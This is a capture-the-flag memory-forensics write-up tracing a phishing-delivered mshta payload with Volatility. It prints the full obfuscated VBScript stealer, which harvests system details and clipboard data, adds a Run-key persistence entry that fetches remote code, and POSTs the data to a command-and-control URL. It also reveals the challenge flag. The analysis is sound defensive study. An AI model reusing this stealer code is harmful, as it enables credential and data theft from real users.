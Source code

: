 # Stealth Stealer
<p align="center">
    <img src="img/stealth_stealer_chall.png" alt="Challenge" width="500"/>
</p>

This challenge uses the same dump as *Phantom Phish*, and wants us to investigate some malware likely arising from the phishing attempt from that challenge.

The notepad process opened the pdf file around `2024-10-17 13:08:33.000000`, so we could be looking for a malware-process close to this timestamp. If we look through the process-list again, this `mshta.exe` process stands out as it reaching out for a `.hta` file from a remote server. `mshta` is a [LOLBIN](https://lolbas-project.github.io/lolbas/Binaries/Mshta/) which can be used to download and execute html applications.
```
PID     PPID    ImageFileName   CreateTime      Audit   Cmd
5696       10348   mshta.exe       2024-10-17 13:07:14.000000      \Device\HarddiskVolume3\Windows\System32\mshta.exe      "C:\Windows\system32\mshta.exe" http://192.168.88.130/heist.hta
```

Using `windows.filescan.FileScan` and `windows.dumpfiles.DumpFiles` we can dump this `heist.hta` file from memory. If this had not worked we could also have retrieved the file by dumping the memory of the `mshta.exe` process, and then carve the hta file out of its memory, but this is a little more tedious.
```
$ vol3 -f dump.dmp windows.filescan.FileScan | grep "\.hta"

Offset  Name    Size
0xc50ce994a580  \Users\Benjamin\AppData\Local\Microsoft\Windows\INetCache\IE\0RH8WS85\heist[1].hta      216

$ vol3 -f dump.dmp windows.dumpfiles.DumpFiles --virtaddr 0xc50ce994a580
```

With `heist.hta` dumped, we only need to reverse it to get the flag.
```vb
<script language="VBScript">
Dim a1, a2, a3, a4, a5, a6, d2
Set a1 = CreateObject("WScript.Shell")
a2 = a1.RegRead(utr("484b4c4d5c534f4654574152455c4d6963726f736f66745c57696e646f7773204e545c43757272656e7456657273696f6e5c50726f647563744e616d65"))
a3 = a1.ExpandEnvironmentStrings(utr("25434f4d50555445524e414d4525"))
a4 = a1.ExpandEnvironmentStrings(utr("25555345524e414d4525"))
a5 = a1.ExpandEnvironmentStrings(utr("2550524f434553534f525f41524348495445435455524525"))
a6 = dsf()
Dim b1, b2, b3
b1 = utr("535556594943684f5a58637454324a715a574e304945356c644335585a574a4462476c6c626e51704c6b5276643235736232466b553352796157356e4b434a6f64485277637a6f764c32686c62476c3463475633644756796332566a636d5630597a49755a5842304c32746c5a58424259324e6c63334e4a5a6b4e76626d356c593352706232354d62334e304c6e427a4d534970")
b2 = utr("484b43555c536f6674776172655c4d6963726f736f66745c57696e646f77735c43757272656e7456657273696f6e5c52756e5c")
b3 = utr("4d6963726f736f6674204564676520496e7465677269747920436865636b6572")
a1.RegWrite b2 & b3, b1, "REG_SZ"
iolo()
Dim dtg
dtg = "5667474c4b0761534c54614e63432368700722594c40275b7f0467687b04220267166e"
d2 = hbr(dtg, &H1337)
dfg a2, a3, a4, a5, a6, d2
Function dsf()
        ' "hopefully I find some wallet keys"
Dim clipboard, ert
Set clipboard = CreateObject("htmlfile")
ert = clipboard.ParentWindow.ClipboardData.GetData(utr("54657874"))
If Len(data) > 0 Then
dsf = data
Else
dsf = utr("4e6f20636c6970626f617264206461746120666f756e64")
End If
End Function
Sub olo(min)
Dim ts
Dim tss
ts = Timer()
tss = 0
Do While tss < (min * 60)
tss = Timer() - ts
If tss < 0 Then tss = tss + 86400
CreateObject("WScript.Shell").AppActivate("shh")
Loop
End Sub
Sub iolo()
olo 5
End Sub
Sub dfg(os, computer, user, arch, clipboard, d2)
Dim xmlhttp, iop, data
data = "os=" & os & "&computer=" & computer & "&user=" & user & "&arch=" & arch & "&clipboard=" & clipboard & "&misc=" & d2
iop = utr("68747470733a2f2f68656c697870657774657273656372657463322e6570742f737465616c65722e706870")
Set xmlhttp = CreateObject(utr("4D53584D4C322E536572766572584D4C48545450"))
xmlhttp.open "POST", iop, False
xmlhttp.setRequestHeader "Content-Type", "application/x-www-form-iopencoded"
xmlhttp.send data
End Sub
Function hbr(juo, xorKey)
Dim i, yka, yty, keyByte
yka = ""
For i = 1 To Len(juo) Step 2
yty = CLng("&H" & Mid(juo, i, 2))
If (i Mod 4) = 1 Then
keyByte = (&H13)
Else
keyByte = (&H37)
End If
yty = yty Xor keyByte
yka = yka & Chr(yty)
Next
hbr = yka
End Function
Function utr(jui)
Dim i, fgg
fgg = ""
For i = 1 To Len(jui) Step 2
fgg = fgg & Chr(CLng("&H" & Mid(jui, i, 2)))
Next
utr = fgg
End Function
</script>
```


The `utr` function converts the hex-string argument from hex to string. The `hbr` function does the same conversion from hex to string, but also xor the bytes with the key `1337`. `hbr` is only used at the following location:
```vb
dtg = "5667474c4b0761534c54614e63432368700722594c40275b7f0467687b04220267166e"
d2 = hbr(dtg, &H1337)
```

This results in the flag `EPT{X0rd_crypt0_c01n_w4ll3t_h315t!}` when decrypted! The actual functionality of this script is to collect computer information from the registry and environment variables, and send it to `https://helixpewtersecretc2.ept/stealer.php`: